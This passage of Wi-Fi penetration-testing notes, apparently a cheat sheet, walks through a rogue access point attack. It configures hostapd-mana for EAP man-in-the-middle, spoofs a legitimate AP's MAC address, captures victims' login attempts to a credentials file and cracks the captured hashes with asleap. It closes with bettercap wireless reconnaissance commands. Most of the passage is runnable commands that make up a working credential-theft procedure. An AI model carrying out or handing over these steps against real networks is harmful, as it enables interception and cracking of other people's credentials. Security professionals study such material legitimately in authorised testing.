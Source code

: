 ```
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
Creating the EAP user file referenced in the configuration file 
```
nano /etc/hostapd-mana/mana.eap_user
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
Clone interface mac address to look likes the legetimated mac **only if it is not possible to deauth, otherwise leave mac and proceed to deauth with another interface**
```
sudo macchanger -m f0:9f:c2:71:22:1a wlan0
```
Start hostapd-mana
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

When a victim attempts to authenticate to our AP, the login attempt is captured and stored to /tmp/hostapd.credout.

Cracking credentials, can also be done with `crackapd` which can automatically run asleap when it sees credentials in the log file
```
Running asleap on hostAPd credentials
asleap -C 1e:63:41:b1:6b:20:9c:5d -R 8c:fb:c3:c0:70:b8:5a:f2:c8:f9:46:a5:7d:64:12:b1:66:e0:7e:8a:cc:86:65:77 -W rockyou.txt
```

# bettercap Essentials
## Installation and Executing
```
sudo apt install bettercap
sudo bettercap -iface wlan0

help
clear
exit
```

## Wi-Fi Module
```
wifi.recon on
wifi.recon.channel 6,11
wifi.show 
wifi.show.filter "WPA2" 
wifi.recon c6:2d:56:2a:53:f8
#client filtering (starting by c0)
wifi.show.filter ^c0 
set wifi.show.filter ""

# Using ticker to display wireless stations (The default refresh interval is one second)
set ticker.commands "clear; wifi.show"
wifi.recon on
ticker on
# ticker off to stop

#can be done also out of the tool option with
sudo bettercap -iface wlan0 -eval "set ticker.commands 'clear; wifi.show'; wifi.recon on; ticker on"
```